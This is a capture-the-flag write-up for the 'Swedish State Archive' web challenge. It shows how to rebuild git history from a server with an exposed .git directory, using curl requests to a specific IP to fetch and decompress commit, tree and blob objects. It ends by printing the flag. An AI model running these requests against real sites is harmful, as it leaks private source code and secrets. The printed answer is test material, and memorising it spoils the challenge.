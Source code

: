 # Swedish State Archive
---
## Solution
1. First we see in server.py, the "git" is mis spell, so we can see if there's flag in git history
        
    ![](https://i.imgur.com/9gwJC2f.png)

2. first, get the latest commit by use
    ```zsh
    curl http://13.53.175.227:50000/.git/refs/heads/master
    ```
    we get the hash vaule of the commit - e4729652052522a5a16615f0005f9c4dac8a08c1
3. the real commit object is store in the .git/objects/, each object is store in the directory whose name is first two hash value, in this problem, the latest commit object is in
    ```
    .git/objects/e4/729652052522a5a16615f0005f9c4dac8a08c1
     ```
     so use following command to get commit content
     ```zsh
     curl -s http://13.53.175.227:50000/.git/objects/e4/729652052522a5a16615f0005f9c4dac8a08c1 | pigz -d
     ```
     the content is
     ```git
     commit 243tree 5e72097f3b99ce5936bff7c3b864ef6c7a0dae85
    parent 0bba32f12b0b1dd8df052ebf3607dadccb9350d7
    author Travis CI User <travis@example.org> 1576308513 +0000
    committer Travis CI User <travis@example.org> 1576308513 +0000

    Make things a bit tighter
     ```
4. We can trace the previous commit by access the parent hash and see the commit file in the tree object, ie use
    ```zsh
    curl -s http://13.53.175.227:50000/.git/objects/0b/ba32f12b0b1dd8df052ebf3607dadccb9350d7 | pigz -d
    ```
     to see the previouse commit.
     and use
     ```zsh
    curl -s http://13.53.175.227:50000/.git/objects/5e/72097f3b99ce5936bff7c3b864ef6c7a0dae85 | pigz -d
     ```
5. After trace few commit, we can see a commit which content is
    ```git
    commit 243tree 326cb05f3fcbdf63aef0177fee81623ff4619398
    parent 0d244f764db9257b18dd84f5830ff958e7b2571d
    author Travis CI User <travis@example.org> 1576308513 +0000
    committer Travis CI User <travis@example.org> 1576308513 +0000

    did some work on flag.txt
    ```
    and to get the tree to see what is update in this commit, use
    ```zsh
    curl -s http://13.53.175.227:50000/.git/objects/32/6cb05f3fcbdf63aef0177fee81623ff4619398 | pigz -d
    ```
    and the content is
    ```
    tree 154100644 flag.txt�F�
    ��3gZ.��\~�.100644 folder.htmlV6�kŐfd�1�����	�100644index.html.�D����4��]�v.A�0�100644 web_server.py���d^dC�D+��5\�
    ```
6. the code after flag.txt is actually the hash value of flag.txt file, thus use
    ```zsh
    curl -s http://13.53.175.227:50000/.git/objects/ef/460ecd090b93b133675a0560eb15ae5c7ef822 | pigz -d
    ```
    the we can get the flag watevr{everything_is_offentligt}
